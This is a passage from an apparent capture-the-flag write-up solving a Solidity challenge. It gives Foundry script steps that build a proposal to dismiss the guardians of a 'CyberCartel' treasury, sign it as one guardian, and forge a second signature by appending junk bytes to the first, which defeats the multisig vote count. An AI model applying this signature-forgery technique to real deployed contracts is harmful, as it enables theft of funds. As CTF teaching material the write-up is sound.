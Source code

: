 Here, `CHALLENGE_ADDRESS` and `PLAYER_PRIVATE_KEY` are environment variables set using the team-dependent values given by the CTF infrastructure upon challenge deployment
<br/><br/>

2. Then, initialize the  `proposal` that will be used to call `gistCartelDismiss()` to dismiss the `guardians` as a result of a successful signature forgery:
```solidity
  ...
  vm.startBroadcast(PLAYER_PRIVATE_KEY);

  // Initialize the proposal to dismiss the guardians.
  BodyGuard.Proposal memory proposal = BodyGuard.Proposal({
    expiredAt: uint32(block.timestamp + 1000),
    gas: 1000000,
    nonce: 1,
    data: abi.encodeWithSelector(
      CartelTreasury.gistCartelDismiss.selector
    )
  });
  ...
```
<br/>

3. As a `guardian`, create a legitimate, valid signature and sign the `proposal`:
```solidity
  ...
  bytes32 hash = bodyguard.hashProposal(proposal);

  // Legitimately sign the proposal as the player, since we are one of the guardians.
  (uint8 v, bytes32 r, bytes32 s) = vm.sign(PLAYER_PRIVATE_KEY, hash);
  ...
```
<br />

4. Create an array of `signatures`: the Attacker's signature & a **forged signature**, made out of the "garbage" bytes appended to the Attacker's signature. Optionally sort the signatures according to their `keccak256` hashes, so that `signatures` definitely pass the validation process:
```solidity
  ...
  bytes[] memory signatures = new bytes[](2);
  signatures[0] = abi.encodePacked(r, s, v);                  // Attacker's signature
  signatures[1] = abi.encodePacked(r, s, v, bytes("trash"));  // Forged signature
  ...
  // Optional sort
  if (keccak256(signatures[0]) >= keccak256(signatures[1])) {
    bytes memory tmp = signatures[0];
    signatures[0] = signatures[1];
    signatures[1] = tmp;
  }
  ...
```

> [!NOTE]
> Note that only **2 signatures are specified** out of the initial 3 signatures from the 3 `guardians`, since the attacker is one of the guardians and the `propose(...)` function of the `BodyGuard` contract states that this condition reduces the number of votes / signatures required by 1:
> ```solidity
> // [file] CyberCartel.sol
> function propose(Proposal memory proposal, bytes[] memory signatures) external {
>   ...
>   if (guardians[msg.sender]) {
>     minVotes_--;
>   }
> ```
<br />
